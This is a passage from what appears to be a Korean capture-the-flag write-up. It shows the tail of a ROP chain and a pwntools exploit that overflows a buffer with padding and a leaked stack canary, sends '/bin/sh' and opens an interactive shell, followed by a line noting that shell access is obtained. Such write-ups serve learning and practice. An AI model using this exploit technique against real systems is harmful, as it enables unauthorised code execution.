 ```python
rop+= p32(0x0)
rop+= p32(e.bss())
rop+= p32(syscall)
```

## Exploit

```c
payload = p8(0x41)*0x20 + canary + p8(0x41)*0xC + rop
    
p.send(chr(len(payload))+payload)
p.send("/bin/sh\x00")
p.interactive()
```

![./18.png](./18.png)

Exploit memory

- ROP 를 바탕으로 쉘 권한을 획득할 수 있는 것을 확인할 수 있다.

```toc
```